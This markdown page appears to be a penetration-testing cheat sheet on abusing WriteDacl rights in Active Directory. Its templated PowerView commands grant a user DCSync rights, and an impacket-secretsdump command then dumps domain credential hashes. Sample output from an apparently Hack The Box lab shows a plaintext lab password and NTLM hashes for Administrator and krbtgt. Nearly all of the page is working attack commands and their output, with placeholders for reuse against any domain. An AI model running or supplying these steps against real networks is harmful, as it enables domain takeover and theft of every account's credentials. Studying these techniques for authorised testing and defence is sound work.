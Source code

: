 ```yaml
---
title: "WriteDacl"
date: 2024-7-12
tags: ["Writedacl", "Dcsync", "Powerview", "Credential Dumping", "Active Directory", "Windows"]
---
```


### Abuse #1: Add dcsync right to user

{{< tab set1 tab1 active >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Import PowerView

```console
. .\PowerView.ps1
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> . .\PowerView.ps1
```

#### 2. Create a cred object (runas) \[optional\]

```console
$username = '<DOMAIN>\<USER>'
```

```console
$password = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
```

```console
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $password
```

#### 3. Add dcsync right

```console
Add-DomainObjectAcl -PrincipalIdentity <USER> -TargetIdentity '<DOMAIN>\<TARGET_GROUP>' -Rights DCSync -Credential $cred
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Add-DomainObjectAcl -PrincipalIdentity 'svc-alfresco' -TargetIdentity 'HTB.LOCAL\Domain Admins' -Rights DCSync -Credential $Cred
```

{{< /tabcontent >}}

### 4. Secrets dump

{{< tab set2 tab1 active >}}Linux{{< /tab >}}
{{< tabcontent set2 tab1 >}}

```console
impacket-secretsdump '<USER>:<PASSWORD>@<TARGET>'
```

```console {class="sample-code"}
$ impacket-secretsdump 'svc-alfresco:s3rvice@10.10.10.161'
Impacket v0.12.0.dev1+20240730.164349.ae8b81d7 - Copyright 2023 Fortra

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
...[SNIP]...
[*] Cleaning up...
```

{{< /tabcontent >}}
